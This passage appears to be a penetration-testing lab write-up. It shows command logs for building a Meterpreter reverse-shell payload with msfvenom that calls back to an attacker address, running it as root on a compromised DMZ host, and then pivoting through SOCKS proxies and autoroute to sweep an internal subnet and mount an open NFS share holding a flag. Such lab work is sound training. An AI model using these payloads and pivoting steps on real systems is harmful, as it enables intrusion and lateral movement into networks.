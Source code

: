 First we will set a tunnel to the target.

Preparing the reverse shell payload:
```shell-session
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.23 -f elf -o backupjob LPORT=8080
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Setting up a listener:
```shell-session
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080
```

Running the payload on the target:
```shell-session
root@dmz01:~# chmod +x backupjob 
root@dmz01:~# ./backupjob
```

Running ping sweep to find live internal hosts:
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.8.0/23

[*] Performing ping sweep for IP range 172.16.8.0/23
[+]     172.16.8.3 host found
[+]     172.16.8.20 host found
[+]     172.16.8.50 host found
[+]     172.16.8.120 host found
```

Configuring SOCKS proxy for pivoting:
```shell-session
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
[*] Stopping the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) >
```

Confirming the SOCKS proxy is running:
```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  3   Auxiliary: server/socks_proxy
```

Creating a route with AutoRoute:
```shell-session
msf6 auxiliary(server/socks_proxy) > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set session 2
session => 2
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.8.0
SUBNET => 172.16.8.0
msf6 post(multi/manage/autoroute) > run

[*] Running module against 10.129.229.147
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```

Added a rout to the 17.16.8.0/23 subnet:
```shell-session
meterpreter > run autoroute -s 172.16.8.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.8.0/255.255.254.0...
[+] Added route to 172.16.8.0/255.255.254.0 via 10.129.229.147
[*] Use the -p option to list all active routes
```

Alternative way for dynamic port forwarding:
```shell-session
# ssh -D 9050 root@10.129.229.147 -i id_rsa
```

Using `showmount` we find an NFS share:
```shell-session
# proxychains showmount -e 172.16.8.20 
Export list for 172.16.8.20:
/DEV01 (everyone)
```

Mounting the share from the target machine:
```shell-session
root@dmz01:~# mkdir mnt
root@dmz01:~# mount -t nfs 172.16.8.20:/DEV01 ./mnt/ -o nolock
root@dmz01:~# cd mnt
root@dmz01:~/mnt# ls
BuildPackages.bat            CKToolbarButtons.xml  DNN       WatchersNET.CKEditor.sln
CKEditorDefaultSettings.xml  CKToolbarSets.xml     flag.txt
root@dmz01:~/mnt#
```